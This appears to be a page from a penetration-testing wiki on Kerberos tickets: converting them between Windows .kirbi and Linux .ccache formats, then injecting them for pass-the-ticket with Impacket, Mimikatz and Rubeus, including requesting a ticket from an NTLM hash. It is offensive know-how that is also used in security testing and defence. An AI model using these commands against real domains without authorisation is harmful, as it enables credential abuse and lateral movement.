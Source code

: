 # 2. Convert and/or use tickets

## Convert tickets formats

First of all, we can convert tickets between Linux/Windows format with [ticket\_converter.py](https://github.com/Zer1t0/ticket\_converter) or [cerbero](https://github.com/eloypgz/cerbero#convert):

{% tabs %}
{% tab title="From Windows to Linux" %}
From Windows (`.kirbi`) to Linux (`.ccache`):

```bash
ticket_converter.py ticket.kirbi ticket.ccache
cerbero convert -i ticket.krb -o ticket.ccache -vv
```
{% endtab %}

{% tab title="From Linux to Windows" %}
From Linux (`.ccache`) to Windows (`.kirbi`):

```bash
ticket_converter.py ticket.ccache ticket.kirbi
cerbero convert -i ticket.ccache -o ticket.krb -vv
```
{% endtab %}
{% endtabs %}

## Use/inject tickets

{% tabs %}
{% tab title="Using ticket in Linux" %}
{% hint style="info" %}
Ticket format: `.ccache`
{% endhint %}

For Impacket binaries/scripts, it is necessary to set an environment variable where our `.ccache` ticket is located:

```bash
export KRB5CCNAME=<TGT_ccache_file_path>
```
{% endtab %}

{% tab title="Using ticket in Windows" %}
{% hint style="info" %}
Ticket format: `.kirbi`
{% endhint %}

Inject ticket with [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
.\Rubeus.exe asktgt /domain:<DOMAIN> /user:<USERNAME> /rc4:<NTLM_HASH> /ptt
```
{% endtab %}
{% endtabs %}
